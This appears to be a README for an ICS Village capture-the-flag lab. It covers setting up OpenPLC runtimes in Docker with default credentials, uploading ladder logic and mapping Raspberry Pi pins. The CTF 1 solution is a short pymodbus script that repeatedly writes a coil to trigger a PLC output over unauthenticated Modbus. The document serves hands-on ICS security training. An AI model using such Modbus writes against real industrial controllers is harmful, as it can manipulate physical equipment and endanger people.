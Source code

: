 # ICS-Village-WindChallenge
If you know what this is, you are in the right place, otherwise leave...

## Step 1 - run
### start CTF's

```bash
sudo docker-compose up
```

### stop CTF's
```bash
sudo docker-compose down
```

First time this will take time since it has to build the image it will approximately take 10 minutes the first time

## Step 2 - login

log into the openplc runtime using browser with IP_address:8080

```bash
user:openplc
password:openplc
```
For more info on [openplc runtime overview](https://openplcproject.com/docs/2-1-openplc-runtime-overview/)

## Step 3 - change password

1) select Users
2) click on OpenPLC User
3) change default password
4) save changes

## Step 4 - change hardware

1) select hardware 
2) change to raspberry pi
3) save changes


## Step 5 - Upload PLC program (Ladder Logic)

1) select Programs
2) upload program

[upload example](https://openplcproject.com/docs/2-2-uploading-programs-to-openplc-runtime/)

### ```plcFiles/ ``` contains plc files.

1) Start_Stop.st - This will be off/on once the coil is written via modbus
2) start.st - This will be on only when a rising edge is detected. False folowed by True on modbus

### After upload click start plc to run

## Additional - Change pins

### Pins for openplc
%IX -> input

%QX -> output

[GPIO pins physical address](https://openplcproject.com/docs/2-3-input-output-and-memory-addressing/)

These can be changed on the .st file

### GPIO pins
openplc input and output mapping to raspberry pi
[Mapping](https://openplcproject.com/docs/2-4-physical-addressing/)

![alt text](images/Raspi_OpenPLC_pinouts.png)


scroll down to Raspberry Pi for pins mapping


# Task/CTF details 
## CTF 1
openplc runtime at port 8080 

modbus at port 502

plcfile - start.st

after the container is up follow steps 2-5

[Modbus address hint](https://autonomylogic.com/docs/2-5-modbus-addressing/)

### Solution
only on when it detects rising edge and cycle time 500ms

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('IP address')
client.connect()
while(1):
    client.write_coil(0, False)
    client.write_coil(0,True)
    sleep(0.01)
```

## CFT2
openplc runtime at port 8081

modbus at port 503

plcfile - Start_Stop.st

after container is up follow steps 2-5

### Solution
on when PB1 is on
off when PB2 is on

Note: the port number is 503


